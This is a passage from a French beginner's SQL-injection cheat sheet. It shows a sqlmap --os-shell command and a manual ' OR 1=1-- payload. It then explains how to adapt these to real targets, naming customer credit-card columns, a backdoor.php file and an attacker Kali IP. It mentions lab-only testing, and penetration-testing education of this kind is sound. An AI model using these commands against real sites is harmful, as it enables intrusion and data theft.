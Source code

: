 ### 4. Shell système via SQLi (si possible)
```bash
sqlmap -u "http://target.com/page.php?id=1" --os-shell
```
- **--os-shell** : Tente d'obtenir un shell système via l'injection.
- **Astuce** : Fonctionne uniquement si la base a des droits suffisants.

### 5. Injection manuelle (pour comprendre)
- Tester avec `' OR 1=1--` dans le paramètre pour voir si la page réagit différemment.
- Exemple :
```
http://target.com/page.php?id=1' OR 1=1--
```
- **À surveiller** : Affichage de toutes les données, contournement de login, erreurs SQL affichées.

---

## Conseils pour débutants
- Toujours tester d'abord en automatique (sqlmap), puis essayer de comprendre en manuel.
- Ne pas négliger les messages d'erreur affichés par le site.
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

# SQL Injection

## �� Vue d'ensemble

**Dans la vraie vie, vous devez adapter :**
```
entreprise.com/products.php?id=5
shop_db, customers, email, credit_card
10.0.2.15, backdoor.php
```

### 🔄 Comment adapter les exemples :
1. **Remplacez** `target.com` par l'URL réelle vulnérable
2. **Remplacez** `database_name` par le nom de base trouvé
3. **Remplacez** `users` par les vraies tables découvertes
4. **Remplacez** `attacker_ip` par votre IP Kali
5. **Adaptez** les noms de colonnes selon la structure réelle
